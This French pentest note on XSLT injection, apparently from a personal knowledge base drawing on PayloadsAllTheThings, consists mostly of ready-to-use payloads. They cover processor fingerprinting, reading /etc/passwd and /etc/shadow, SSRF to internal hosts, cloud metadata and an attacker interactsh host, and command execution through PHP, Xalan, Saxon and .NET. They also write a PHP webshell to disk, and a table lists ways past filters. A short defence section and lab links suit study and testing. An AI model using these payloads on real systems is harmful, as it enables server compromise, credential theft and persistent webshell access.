

# XSLT Injection

> [!info] **En 1 phrase**
> XSLT Injection = faire exécuter une **feuille de style XSLT contrôlée/non validée** par le processeur
> de l'application → **lecture de fichiers**, **SSRF**, parfois **écriture** et **RCE** sur le serveur.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSLT%20Injection/README.md)**

---

## Concept

XSLT (eXtensible Stylesheet Language Transformations) = langage de **transformation XML→XML/HTML/text** :
le processeur applique une **feuille de style** (`.xsl`/`.xslt`) sur un document XML via des **templates**
(`<xsl:template match="...">`), des **sélecteurs XPath** (`<xsl:value-of select="..."/>`, `<xsl:for-each>`)
et des **fonctions intégrées** (`system-property`, `document`, `current`…). Les **extensions**
(EXSLT, `php:function`, `java:`, `msxsl:script`) ajoutent accès fichiers, réseau et parfois **exécution**.



> [!info] **Pourquoi ça marche**
> L'app utilise un paramètre utilisateur (nom de feuille, contenu uploadé, ou template partiel concaténé)
> pour construire la transformation sans **validation ni sandbox**. Si on contrôle le XSLT, on contrôle
> ce que le processeur charge et exécute.

On la trouve sur les **transformateurs XML→HTML** (reporting, exports, CMS type Ektron/Umbraco), les **uploads de `.xsl`/`.xslt`**, et les paramètres `?template=...`, `?xslt=...`.

---

## Détection & identification du processeur

> [!tip] **Toujours en premier** : identifier le **processeur et sa version**. Chaque moteur
> (libxslt, Xalan, Saxon, MSXML/.NET, PHP) a ses extensions et ses capacités — le payload qui marche sur l'un
> échoue sur l'autre. `system-property()` est le fingerprint universel.

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:php="http://php.net/xsl">
<body>
  <br/>Version:  <xsl:value-of select="system-property('xsl:version')"/>
  <br/>Vendor:   <xsl:value-of select="system-property('xsl:vendor')"/>
  <br/>VendorURL:<xsl:value-of select="system-property('xsl:vendor-url')"/>
</body>
</html>
```

### Capacités par processeur

| Processeur | `xsl:vendor` (typique) | Version | Extensions utiles |
|---|---|---|---|
| **libxslt** (PHP/C, C++...) | `libxslt` | 1.0 | `php:function`, `document()`, exsl, `http://exslt.org/files` |
| **Xalan** (Java) | `Apache Software Foundation (Xalan XSLTC)` | 1.0 | `java:...` (`xml.apache.org/xalan/java`) |
| **Saxon** (Java/.NET) | `SAXON` | 1.0/2.0/3.0 | `java:...` (`http://saxon.sf.net/java-type`), `fn:doc`, `xsl:evaluate` |
| **MSXML / .NET** (`XslCompiledTransform`) | `Microsoft` | 1.0 | `msxsl:script` (C#, VB, JScript), `document()` |
| **Altova / XMLSpy / msvcrt** | divers | 1.0/2.0 | XSLT 2.0 → `fn:doc`, `unparsed-text` |

**Test de version** : si `xsl:version` renvoie `2.0`/`3.0`, on a droit aux fonctions XSLT 2/3.0
(`fn:doc`, `fn:unparsed-text`, `xsl:source-document`) et sur Saxon `xsl:evaluate` compile du XPath
arbitraire → vecteur RCE direct.

---

## LFI — Lecture de fichiers

`document()` accepte des **URIs** : `file://`, chemins absolus, et URLs réseau. Les fonctions d'extension
PHP/Java complètent en lecture brute.

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    <xsl:copy-of select="document('file:///etc/shadow')"/>
  </xsl:template>
</xsl:stylesheet>
```

Variantes (résultat non-parseable = lecture brute) :

```xslt
<!-- XSLT 2.0+ : lecture brute, sans parsing XML -->
<xsl:value-of select="unparsed-text('file:///etc/passwd')"/>
<xsl:value-of select="unparsed-text('file:///c:/windows/system32/drivers/etc/hosts')"/>
<xsl:value-of select="fn:doc('file:///etc/passwd')"/>
```

Via PHP (`libxslt` + extension `php.net/xsl`) :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
  <xsl:value-of select="php:function('readfile','/etc/passwd')"/>
  <xsl:value-of select="php:function('file_get_contents','index.php')"/>
  <xsl:value-of select="php:function('scandir','/var/www')"/>
</body>
</html>
```

**`xsl:include` / `xsl:import`** chargent une autre feuille → inclusion arbitraire de fichier :

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:include href="file:///etc/passwd"/>
  <xsl:template match="/"><xsl:apply-templates/></xsl:template>
</xsl:stylesheet>
```

---

## SSRF & XXE

Le **SSRF** est quasi toujours disponible : `document('http://...')` fait une requête côté serveur
(scan interne, OAST, port-scans par timeouts, lecture des headers de réponse) :

```xml
<xsl:template match="/fruits">
  <xsl:copy-of select="document('http://172.16.132.1:25')"/>   <!-- port scan interne -->
  <xsl:copy-of select="document('http://ATTACKER/interactsh')"/>
  <xsl:value-of select="php:function('file_get_contents','http://169.254.169.254/latest/meta-data/')"/>
</xsl:template>
```

**XXE** : tester aussi les DTD dans la feuille (le processeur XSLT est souvent un parseur XML complet) :

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "file:///etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;
    <xsl:for-each select="fruit">
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

---

## RCE — PHP (libxslt / xxsl)

Namespace `xmlns:php="http://php.net/xsl"` → `php:function('nom_fonction', args…)` appelle
**n'importe quelle fonction PHP** : `system`, `exec`, `passthru`, `shell_exec`, `assert`, `preg_replace`… (`php:functionString` = variante retournant string).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
  <xsl:value-of select="php:function('system','id')"/>
</body>
</html>
```

```xml
<!-- webshell via file_put_contents (échappement &lt; &quot; requis) -->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of select="php:function('file_put_contents','/var/www/webshell.php',
      '&lt;?php echo system($_GET[&quot;command&quot;]); ?&gt;')" />
  </xsl:template>
</xsl:stylesheet>
```

> [!tip] Variantes classiques : `php:function('assert', 'include("http://IP/test.php")')` (RCE distante)
> et `php:function('preg_replace','/.*/e', eval(base64_decode('...Meterpreter...')),'')` → shell PHP complète (cf. agarri).

---

## RCE — Java (Xalan / Saxon)

### Xalan — namespace `http://xml.apache.org/xalan/java`

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
  xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
  <xsl:template match="/">
    <xsl:variable name="rtobject" select="rt:getRuntime()"/>
    <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
    <xsl:variable name="processString" select="ob:toString($process)"/>
    <xsl:value-of select="$processString"/>
  </xsl:template>
</xsl:stylesheet>
```

> [!tip] `rt:exec()` ne renvoie pas la sortie : la lire via `Process.getInputStream` → `InputStreamReader`
> → `BufferedReader.readLine` (namespaces `http://xml.apache.org/xalan/java/...`).

### Saxon — namespace `http://saxon.sf.net/java-type` (XSLT 2.0+)

```xml
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:java="http://saxon.sf.net/java-type">
  <xsl:template match="/">
    <xsl:value-of select="java:java.lang.Runtime::getRuntime()"/>
    <xsl:value-of select="java:java.lang.Runtime::exec(java:java.lang.Runtime::getRuntime(),'cmd.exe /C ping IP')"/>
  </xsl:template>
</xsl:stylesheet>
```

`::` = membre statique (`java:java.lang.Runtime::exec(java:java.lang.Runtime::getRuntime(),'id')`), `!` = opérateur pipe XSLT 3.0.

---

## RCE — .NET (MSXML / XslCompiledTransform)

`msxsl:script` compile du **code arbitraire** (C#, VB, JScript) déclaré dans la feuille :

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
  <msxsl:script implements-prefix="App" language="C#">
    <![CDATA[
      public string ToShortDateString(string date){
        System.Diagnostics.Process.Start("cmd.exe");
        return "01/01/2001";
      }
    ]]>
  </msxsl:script>
  <xsl:template match="ArrayOfTest">
    <TABLE><xsl:for-each select="Test"><TR><TD>
      <xsl:value-of select="App:ToShortDateString(TestDate)"/>
    </TD></TR></xsl:for-each></TABLE>
  </xsl:template>
</xsl:stylesheet>
```

Variante **sortie capturée** : dans le `msxsl:script`, ajouter
`System.Diagnostics.Process` + `RedirectStandardOutput=true` + `proc.StandardOutput.ReadToEnd()`
puis appeler `App:exec('dir C:\\')` dans un `xsl:value-of`.

---

## Écriture de fichiers (EXSLT)

L'extension `exsl:document` (namespace `http://exslt.org/common`) écrit un fichier sur le disque :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common"
  extension-element-prefixes="exploit" version="1.0">
  <xsl:template match="/">
    <exploit:document href="/var/www/evil.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

**libxslt** expose aussi `http://exslt.org/files` : `file:read`, `file:write`, `file:exists`, `file:list`
(lecture/écriture ; doublon de `php:function('file_put_contents',...)`).

> [!warning] Écriture = escalade rapide : `.asp`/`.php`/`.aspx` dans le dossier web → **webshell**.
> Toujours vérifier les droits d'écriture du service (dossier web, `/tmp`, répertoire d'upload).

---

## Bypass de filtres

| Filtre | Bypass |
|---|---|
| `php:function` bloqué | `PHP:function` (noms PHP **insensibles à la casse**) ; `php:functionString` ; `xsl:include`/`import` vers une feuille distante contenant l'appel |
| `system`/`exec` bloqués | `passthru`, `shell_exec`, `popen`, `proc_open`, `pcntl_exec`, `assert`, `preg_replace('/.*/e',...)` |
| Chaînes filtrées | `php:function('file_put_contents','/tmp/x.php',base64_decode('PD9waHA...'))` ; split via XPath `concat('sy','stem')` dans les args |
| Guillemets/chevrons filtrés | Entités XML `&lt; &gt; &quot; &#x27; &amp;` (voir payload `file_put_contents`) ; CDATA pour les blocs de code (`msxsl:script`) |
| `document()` bloqué | `fn:doc()`, `unparsed-text()`, `xsl:include`, `php:function('file_get_contents')`, `php:function('readfile')` |
| `=` / espaces filtrés (XPath 2.0+) | Commentaires XPath `(: ... :)`, whitespace alternés `%09 %0A`, `fn:concat` |
| Restrictions Java/Saxon | `System.setProperty`/`SecurityManager` contournables via `Runtime.exec` ; XSLT 3.0 `xsl:evaluate` |
| Espace de noms php masqué | Déclarer `xmlns:php` **dans la feuille injectée** (portée locale), pas dans l'app |

Si le processeur **refuse les extensions**, rester en **LFI/SSRF** (`document()`, `xsl:include`) et **XXE**
(DTD dans la feuille) — exploitable sans aucune extension.

---

## Outils

```bash
# XSLTFuzz (RootUp) — fuzzer / collecte de payloads XSLT
git clone https://github.com/RootUp/XSLTFuzz
python xsltfuzz.py --url "http://target/transform?file=" --vuln
```

Pas d'outil dédié "complet" : workflow **manuel** dans Burp — injecter `system-property('xsl:vendor')`,
puis `document('file:///etc/hostname')`, puis le payload RCE du moteur identifié (PHP/Java/.NET).
Source de payloads : **PayloadsAllTheThings**. **Labs** : Root-Me — *XSLT - Code execution* (https://www.root-me.org/).

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Ne jamais transformer du XSLT non fiable** | Aucun upload/paramètre de feuille provenant de l'utilisateur ; la feuille doit être un **asset serveur signé/emprisonné** |
| **Désactiver les extensions** | PHP : `ini_set('xsl.security_prefs', XSL_SECPREF_DISABLE_EXTENSION_FUNCTIONS)` ; Java : `TransformerFactory` sans `ExtensionsProvider`, Saxon en mode sécurisé ; .NET : `XsltSettings.TrustedXslt = false` / `DisableExtensionSupport` |
| **Sandbox / exécution isolée** | Transformer dans un conteneur, `chroot`, compte dédié sans droits fichiers, ou API de conversion externe |
| **Désactiver document()/include/import** | `XSLT_SECPREF_READ_NETWORK` + `XSLT_SECPREF_READ_FILE` (PHP/libxslt) ; DTD/entités externes désactivées (XXE) ; URLs réseau limitées (SSRF) |
| **Surveillance** | Logs : appels `document()`, erreurs de parsing XSLT, requêtes sortantes inattendues (SSRF), fichiers écrits hors workflow |

---

## Tips & Pièges

> [!tip] **Ordre d'attaque**
> 1. **Identifier le processeur** (`system-property`) → choisir les extensions du bon moteur.
> 2. **Tester `document()`** (LFI + SSRF) — souvent suffisant pour lire configs/credentials.
> 3. **Tester XXE** dans la feuille (souvent oublié, très rentable).
> 4. **RCE** : PHP → `php:function('system','id')` ; Java → `java:Runtime::exec` ; .NET → `msxsl:script`.
> 5. **Écriture** (`exsl:document` / `file_put_contents`) si les fichiers lisibles ne suffisent pas.

> [!warning] **Pièges**
> - Les capacités **diffèrent énormément** entre processeurs : un payload `.NET` casse sur libxslt et inversement. D'où l'identification **avant** les payloads.
> - `document()` échoue sur des fichiers **non-XML** (binaire, encodage) → `unparsed-text` / `php:function('readfile')`.
> - Le RCE PHP exige l'extension **xxsl** (rarement activée) ; sinon on reste en LFI/SSRF. Même chose côté .NET : `XsltSettings` par défaut bloque `msxsl:script`.
> - **XSLT 3.0 + Saxon** : `xsl:evaluate` change la donne — tester même si les extensions semblent bloquées.
> - Ne pas oublier le **SSRF interne** : `document('http://127.0.0.1:8080/admin')` peut pivoter vers des services internes.

---

## Liens

- [[XXE| XXE]]
- [[SSTI| SSTI]]
- [[Injection de commandes| Injection de commandes]]
- [[SSRF| SSRF]]
- [[Upload de fichiers| Upload de fichiers]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — XSLT Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSLT%20Injection/README.md)
- [From XSLT code execution to Meterpreter shells — Nicolas Grégoire (@agarri)](https://web.archive.org/web/20190820014239/https://www.agarri.fr/blog/archives/2012/07/02/from_xslt_code_execution_to_meterpreter_shells/index.html)
